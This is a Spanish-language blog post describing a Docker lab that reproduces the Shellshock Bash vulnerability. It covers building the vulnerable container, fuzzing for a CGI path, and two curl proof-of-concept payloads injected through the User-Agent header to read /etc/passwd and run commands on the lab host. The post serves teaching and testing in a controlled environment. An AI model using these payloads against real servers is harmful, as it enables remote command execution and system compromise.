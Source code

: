 ```yaml
---
layout: single
title:  Explotando la vulnerabilidad shellshock en un entorno controlado
excerpt: "En este post mostraré como crear un pequeño laboratorio a traves de docker sobre la vulnerabilidad de shellshock hasta ganar acceso al sistema"
date: 2021-05-09
classes: wide
header:
    teaser: /assets/images/shellshock/portada.PNG
    teaser_home_page: true
categories:
    - BoF
tags:
    - linux
    - docker
---
```



<p align="center">
<img src="/assets/images/shellshock/portada.PNG">
</p>

- [Requisitos del laboratorio](#requisitos-del-laboratorio)
- [Laboratorio](#laboratorio)
- [Construyendo el Dockerfile](#construyendo-el-dockerfile)
- [Obteniendo una shell](#obteniendo-una-shell)

## Requisitos del laboratorio
- Maquina virtual Parrot OS
- Docker 
- Git 

## Shellshock ¿Que es?
Shellshock , también conocido como Bashdoor , es una familia de errores de seguridad de la familia Bash Unix.
Esta vulnerabilidad existe desde hace un tiempo, pero debido a la ubicuidad de las máquinas Unix conectadas a la web, Shellshock sigue siendo una amenaza muy real, especialmente para los sistemas sin parches.
Bash es un intérprete o intérprete que permite ejecutar comandos en un sistema, normalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix y, como tal, se puede encontrar en Linux, macOS y otras variantes de Unix. Esta es la razón por la que Shellshock es tan severo: más de la mitad de los servidores web en Internet ejecutan Unix.

----

# Laboratorio
Para replicar esta vulnerabilidad en nuestro sistema es necesario descargar este [proyecto](https://github.com/Zenithar/docker-shellshockable) el cual viene un archivo Dockerfile que construiremos con docker para hacer nuestra práctica
```
git clone https://github.com/Zenithar/docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/1.PNG">
  </p>

## Contruyendo el Dockerfile
Teniendo ya el repositorio en nuestra maquina aplicaremos el siguiente comando como el usuario root.
```bash
sudo docker build -t shellshock docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/2.PNG">
  </p>

Listamos las todas las imagenes para verificar la construccion de la imagen shellshock.  
Y posteriormente corremos el contenedor
<p align="center">
<img src="/assets/images/shellshock/3.PNG">
  </p>

----

Con el comando ```ifconfig docker0``` comprobaremos en que segmento de red se encuentra el contenedor.
<p align="center">
<img src="/assets/images/shellshock/4.PNG">
  </p>


Se puede observar que la ip en el que se esta ejecutando el servicio web es la 172.17.0.2
<p align="center">
<img src="/assets/images/shellshock/5.PNG">
  </p>


Si nos dirigimos al navegador nos muestra la pagina por defecto de apache.
<p align="center">
<img src="/assets/images/shellshock/6.PNG">
  </p>


Aplicaremos fuzzing a la pagina web para ver que con cosas interesantes nos podemos topar para ello haré uso de la utilidad de dirsearch que lo puedes descargar de [aquí](https://github.com/maurosoria/dirsearch).
|columna 1 | columan 2 | columna 3 |
|----------|:----------|:----------|
|fila1     |elemento 1 |manzana    |
|fila2     |elemento 2 |pera       |
|fila3     |elemento 3 |granadilla |

<p align="center">
<img src="/assets/images/shellshock/7.PNG">
  </p>

Si verificamos este directopio en la web nos manda un mensaje de que no tenemos acceso, sin embargo sabemos que existe asi que volveremos a aplicar fuzzing a esta ruta nueva.
<p align="center">
<img src="/assets/images/shellshock/8.PNG">
  </p>

Ha sido posible encontrar la ruta **/cgi-bin/sockme.cgi**.
<p align="center">
<img src="/assets/images/shellshock/9.PNG">
  </p>

El siguiente comando de POC es posible obtener ejecución remota de comandos dentro del servidor.
```bash
curl -A "() { foo;};echo;/bin/cat /etc/passwd" "http://172.17.0.2/cgi-bin/shockme.cgi"

```
<p align="center">
<img src="/assets/images/shellshock/10.PNG">
  </p>

## Obteniendo una shell
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" "http://172.17.0.2/cgi-bin/shockme.cgi"
```
<p align="center">
<img src="/assets/images/shellshock/11.PNG">
  </p>






